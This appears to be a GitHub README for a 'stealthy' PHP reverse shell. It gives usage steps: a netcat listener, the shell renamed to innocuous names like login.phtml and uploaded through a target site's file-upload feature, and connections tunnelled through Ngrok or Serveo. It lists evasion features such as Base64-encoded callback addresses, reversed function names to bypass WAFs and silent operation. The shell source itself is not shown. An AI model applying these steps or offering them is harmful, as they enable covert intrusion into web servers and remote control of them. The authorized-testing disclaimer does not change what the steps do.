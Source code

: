 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It establishes a reliable and quiet connection back to your machine.

## ⚠️ Disclaimer
This PHP reverse shell is developed strictly for educational and authorized penetration testing purposes only.   
The developer is not responsible for any misuse, damage, or illegal activity performed using this reverse_shell.     
Use responsibly and only on systems you own or have explicit permission to test. Unauthorized access is illegal and punishable by law.
## Features
- IP and shell command are Base64 encoded for stealth 

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like  Ngrok, Serveo

- Upload with `.phtml` extension to bypass some filters

## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**

Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP reverse shell script.

**3. Update your PHP reverse shell script:**

Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload**

Rename the file to something less suspicious, for example:

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

Using the `.phtml` extension helps the file run on some servers that block `.php`.

Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.

## Using Tunneling (When Your IP is Not Public)
If you're using mobile data or behind a router (NAT), your IP might not be public.
In that case, the reverse shell can't reach your machine directly.

To fix this, use TCP tunneling tools like Ngrok or Serveo.

#### Ngrok (Recommended)
Install Ngrok   
Run this command:

```bash
ngrok tcp 4444
```
It will show something like:

```nginx
Forwarding tcp://4.tcp.ngrok.io:18900
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of 4.tcp.ngrok.io;
$port = 18900;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
#### Serveo

**Run this command:**

```bash
ssh -R 0:localhost:4444 serveo.net
```
**It will say something like:**

```csharp
Forwarding TCP connections from serveo.net:46603
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of serveo.net;
$port = 46603;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
## License
This project is licensed under the GNU General Public License v3.0.

